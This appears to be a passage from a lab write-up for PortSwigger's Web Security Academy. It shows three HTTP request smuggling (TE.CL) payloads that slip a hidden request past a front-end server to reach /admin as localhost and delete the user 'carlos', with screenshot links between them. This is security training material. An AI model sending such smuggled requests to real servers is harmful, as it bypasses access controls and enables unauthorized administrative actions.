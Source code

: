 

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TECL_control_local.png?raw=true)

```
POST / HTTP/1.1
Host: acee1f251ea07fc280fe56f700960090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TECL_control_panel.png?raw=true)


```
POST / HTTP/1.1
Host: acee1f251ea07fc280fe56f700960090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TECL_control_del.png?raw=true)
